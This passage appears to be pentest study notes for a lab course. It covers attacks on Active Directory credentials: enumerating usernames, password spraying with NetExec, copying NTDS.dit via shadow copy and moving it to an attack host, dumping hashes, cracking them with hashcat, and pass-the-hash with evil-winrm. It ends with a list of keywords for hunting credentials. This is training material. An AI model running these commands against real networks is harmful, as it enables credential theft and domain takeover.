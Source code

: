 > A tip from MrB3n: We can often find the email structure by Googling the domain name, i.e., “@inlanefreight.com” and get some valid emails. From there, we can use a script to scrape various social media sites and mashup potential valid usernames. Some organizations try to obfuscate their usernames to prevent spraying, so they may alias their username like a907 (or something similar) back to joe.smith.  
> Sometimes you can use google dorks to search for “inlanefreight.com filetype:pdf” and find some valid usernames in the PDF properties if they were generated using a graphics editor. From there, you may be able to discern the username structure and potentially write a small script to create many possible combinations and then spray to see if any come back valid.  

- `./username-anarchy -i names.txt` convert a list of real names into common usernames formats.
- `NetExec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt` dictionnary attack with NetExec

### Capturing NTDS.dit

NTDS.dit file is stored at %systemroot$/ntds on the domain controllers in a forest.  
This is the primary database file associated with AD and stores all domain usernames, password hashes, and other critical schema information.  

#### Creating Shadow Copy of C:

We can use vssadmin to create a Volume Shadow Copy (VSS) of the C: drive or whatever volume the admin chose when initially installing AD. It is very likely that NTDS will be stored on C: as that is the default location selected at install, but it is possible to change the location. 

- `PS C:\> vssadmin CREATE SHADOW /For=C:`
- `cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit` Copying NTDS.dit from the VSS
- `PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData` Transferring NTDS.dit to Attack Host

#### A Faster Method: Using cme to Capture NTDS.dit

- `NetExec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds` This command allows us to utilize VSS to quickly capture and dump the contents of the NTDS.dit file conveniently within our terminal session.

### Cracking Hashes & Gaining Credentials

- `sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt` Cracking a Single Hash with Hashcat
- `evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"` pass the hash with evil-winrm (more info about pass-the-hash attacks [here](../windows/pass-hash.md))

### Credential Hunting in Windows

> Here we assume that we have gained access to an IT admin's Windows 10 workstation through RDP.

#### Keyterms to search

- Passwords, Passphrases, Keys, Username, User account, Creds, Users, Passkeys, Passphrases, configuration, dbcredential, dbpassword, pwd, Login, Credentials.

#### Tools
